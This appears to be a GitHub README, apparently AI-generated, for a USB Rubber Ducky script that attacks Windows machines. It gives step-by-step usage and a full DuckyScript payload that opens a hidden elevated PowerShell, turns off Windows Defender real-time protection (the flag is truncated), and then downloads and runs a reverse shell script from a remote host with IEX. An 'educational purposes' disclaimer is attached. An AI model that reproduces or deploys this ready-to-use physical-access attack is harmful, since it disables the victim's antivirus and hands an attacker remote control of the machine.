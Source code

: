 
# Reverse Shell Automation Script for Windows

This script is designed to disable Windows Defender and execute a reverse shell on a target Windows machine. The script uses PowerShell commands to achieve these tasks, making it suitable for penetration testing and security assessments. **Note**: This script is intended for ethical hacking and educational purposes only. Unauthorized use of this script is illegal and unethical.

## How It Works

1. **Disable Windows Defender**: The script initiates an elevated PowerShell session to disable Windows Defender's real-time protection. This allows the execution of potentially malicious scripts without being blocked by the antivirus software.

2. **Establish a Reverse Shell**: After disabling Windows Defender, the script downloads and executes a reverse shell PowerShell script from a remote server. This connects back to the attacker's machine, giving them remote access to the target system.

## Script Breakdown

1. **Turn off Windows Defender**:
   - The script uses a combination of Windows GUI automation (via key presses) and PowerShell commands to disable Windows Defender's real-time protection.
   - It starts by opening a Run dialog (`GUI r`) and then executing a PowerShell command to disable Windows Defender.

2. **Start Reverse Shell**:
   - After disabling Windows Defender, the script opens another Run dialog to execute a PowerShell command that downloads and runs a reverse shell script from a remote server.

## Usage

1. **Preparation**:
   - Host a reverse shell script (`shell.ps1`) on a remote server that is accessible from the target machine.
   - Update the script with the appropriate IP address and path to the reverse shell script.

2. **Deploy the Script**:
   - The script can be deployed using a USB Rubber Ducky, Teensy, or other HID (Human Interface Device) attack platforms that can automate keystrokes on the target machine.

3. **Run the Script**:
   - Plug the device into the target machine.
   - The script will execute automatically, turning off Windows Defender and establishing a reverse shell.

## Example Script

```powershell
REM Turn off Windows Defender and start reverse shell
REM
DELAY 1000
GUI r
DELAY 200
REM Start an elevated powershell instance which will disable Windows Defender.
STRING powershell -w hidden start powershell -A 'Set-MpPreference -DisableRea $true' -V runAs
ENTER
DELAY 1000
REM if you need administrator [left, enter and delay 1000]
LEFT
ENTER
DELAY 1000
ALT y
DELAY 1000
GUI r
DELAY 100
STRING powershell -w hidden "IEX (New-Object Net.WebClient).DownloadString('http://192.168.1.15/shell.ps1');"
ENTER
STRING exit
ENTER
```

## Disclaimer

This script is for **educational purposes only**. Misuse of this script can result in criminal charges and legal consequences. The authors are not responsible for any misuse or damage caused by this script. Use responsibly and always have permission before attempting to access or compromise any systems.

## License

This project is licensed under the MIT License - see the [LICENSE](LICENSE) file for details.

---

Feel free to copy and paste this into your GitHub repository's README.md file.
